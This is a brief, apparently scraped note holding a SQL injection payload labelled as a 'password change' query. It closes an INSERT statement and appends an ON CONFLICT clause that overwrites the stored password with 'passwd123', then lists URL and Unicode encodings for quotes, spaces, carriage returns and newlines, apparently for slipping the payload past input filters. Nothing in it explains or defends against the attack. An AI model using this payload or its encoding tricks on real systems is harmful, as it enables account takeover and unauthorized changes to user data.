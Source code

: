 sql query for password change:
') ON CONFLICT (username) DO UPDATE SET password = 'passwd123'; -

* %27 - '
* %22 - "
* \u0120 - (space)
* \u0120 - (space)
* \u010D - \r
* \u010A - \n
